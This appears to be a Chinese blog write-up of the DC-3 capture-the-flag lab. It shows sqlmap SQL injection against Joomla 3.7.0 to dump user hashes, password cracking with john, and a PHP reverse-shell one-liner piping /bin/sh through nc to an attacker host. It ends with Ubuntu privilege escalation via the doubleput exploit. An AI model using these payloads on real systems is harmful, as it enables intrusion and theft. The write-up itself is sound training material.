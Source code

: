```yaml
---
layout: post
title: DC-3
subtitle: DC-3
date: 2025-07-09 08:57
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
  - DC系列
published: true
---
```

### 环境配置

[解决：DC-3 IDE 设备(兹盘/CD-ROM)配置不正确。“ide0:1“上具有 个 IDE 从设备但没有主设备。此配置在虚拟机中 无法正常运行](https://blog.csdn.net/qq_50377269/article/details/137790190)

### 信息搜集

主机发现：`192.168.163.131`

![image.png300](https://img.ghostliner.top/pXvsQf.png)

端口扫描

![image.png300](https://img.ghostliner.top/K2a1g5.png)

访问网站 http://192.168.163.131/ 获得提示

```shell
dirb http://192.168.163.131/
nikto -h 192.168.163.131
```

扫描目录发现后台登录 http://192.168.163.131/administrator/index.php

`whatweb` 发现网站框架 `Joomla`

![image.png300](https://img.ghostliner.top/4qww6f.png)

`joomscan` 扫描获取详细信息 版本 `Joomla 3.7.0`
### 渗透测试

搜索版本漏洞

![image.png300](https://img.ghostliner.top/JUEDGl.png)
#### 数据库爆破

查看 `/usr/share/exploitdb/exploits/php/webapps/42033.txt`

![image.png300](https://img.ghostliner.top/IgBLKX.png)

使用该命令：
```shell
sqlmap -u "http://192.168.163.131/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] --batch
```

获取到数据库
![image.png300](https://img.ghostliner.top/RNZXpV.png)

```shell
# 获取表
sqlmap -u "http://192.168.163.131/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -p list[fullordering] -D joomladb --tables --batch
# 获取列 不能用--batch
sqlmap -u "http://192.168.163.131/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -p list[fullordering] -D joomladb -T '#__users' --columns
# 获取用户名 密码
sqlmap -u "http://192.168.163.131/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -p list[fullordering] -D joomladb -T '#__users' -C username,password --dump
```

<table>
	<tr>
		<td><center><img src="https://img.ghostliner.top/mD6eR2.png" width=200></center></td>
		<td><center><img src="https://img.ghostliner.top/ajK0Ne.png" width=200></center></td>
	</tr>
</table>

获取到用户名、密码

![image.png](https://img.ghostliner.top/SDg7ss.png)


Joomla 使用 `#__` 作为数据库表名的**动态前缀占位符**，若安装时前缀设为 `jos_`，则实际表名为 `jos_users` 

将密码保存到 `pass.txt` 破解密码

```shell
john --wordlist=/usr/share/wordlists/john.lst pass.txt
# snoopy           (?)

# 若显示不需要破解，说明之前已破解过，执行命令
john --show pass.txt
```
#### 反弹shell

尝试登录网站后台，成功。
在拓展-》模板-》beez3 可以上传php文件，上传反弹shell脚本

```php
<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.163.132 4444 >/tmp/f');?>

# kali执行 nc -lvvp 4444
```


```mermaid
graph TD
    A[攻击者输入命令] --> B[Netcat 4444端口]
    B --> C["/tmp/f 管道"]
    C --> D["cat 读取命令"]
    D --> E["/bin/sh 执行命令"]
    E --> F[命令结果]
    F --> B[Netcat发回攻击者]
```

根据之前扫描发现的目录，尝试访问 `http://192.168.163.131/templates/beez3/shell.php`

![image.png](https://img.ghostliner.top/LM3Bjc.png)

访问成功，连接到kali，`sudo -l` , `find` 提权失败，根据提示进行系统提权

```shell
cat /etc/issue
# Ubuntu 16.04 LTS \n \l
```
#### 系统提权

```shell
searchsploit ubuntu 16.04
searchsploit -p linux/local/39772.txt
cat /usr/share/exploitdb/exploits/linux/local/39772.txt
```

按文件内容下载 https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/39772.zip 只需要 `exploit.tar` 文件

利用一句话木马和蚁剑，上传文件
![image.png](https://img.ghostliner.top/EOXJpA.png)

`tar -xvf exploit.tar` 解压文件，cd进目录，执行以下命令，即可获得root权限

```shell
./compile.sh
./doubleput
```

![image.png](https://img.ghostliner.top/MIXHhV.png)
